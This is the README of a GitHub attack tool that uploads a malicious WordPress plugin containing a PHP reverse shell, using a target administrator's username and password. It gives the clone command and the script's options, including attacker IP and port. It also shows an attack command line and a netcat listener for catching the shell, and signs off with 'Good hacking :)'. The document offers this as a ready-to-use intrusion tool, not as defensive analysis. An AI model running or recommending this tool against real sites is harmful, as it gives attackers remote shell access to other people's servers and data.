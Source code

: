![LOGO](https://github.com/JoaoPedroMoreira02/Pwn_Wordpress/assets/103542430/7c6e38fe-7fda-4f97-9da1-b1a619f975d2)


# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/JoaoPedroMoreira02/Pwn_Wordpress.git
```
    
## Parameters [Running Script]

Help section (-h)

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```

Attacking the Target Website: 

```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

Executing Handler

```bash 
nc -lvp {LOCAL PORT}
```

The script will automatically give you the connection. 

***---> In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program <---***
 
***---> Correct Syntax: "http://IP/wordpress | Wrong syntax: http://IP/wordpress/ <---***

## 

- ***Good hacking :)***




